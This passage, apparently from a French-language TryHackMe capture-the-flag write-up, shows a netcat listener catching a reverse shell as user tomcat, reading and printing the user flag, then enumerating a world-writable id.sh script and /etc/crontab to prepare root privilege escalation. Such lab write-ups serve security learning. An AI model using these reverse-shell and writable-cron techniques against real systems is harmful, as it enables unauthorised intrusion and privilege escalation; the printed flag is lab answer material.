 ```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour établir une connexion avec le reverse shell.  

```bash
 /shell None specified   true 0  Start  Stop
   Reload
```

On clique sur le lien du shell dans la page ou on a déployé le shell.

```bash
im@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.124.176] 58154
whoami
tomcat
pwd
/
cd home
ls
jack
cd jack	
cat user.txt
39400c90bc683a41a8935e4719f181bf
```

Une fois la connexion établie on est sur l'utilisateur tomcat et nous pouvons récupérer notre premier flag.  
Réponse : 39400c90bc683a41a8935e4719f181bf 

```bash
ls -al
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jul 18 01:48 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

cat id.sh
#!/bin/bash
id > test.txt

cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
```
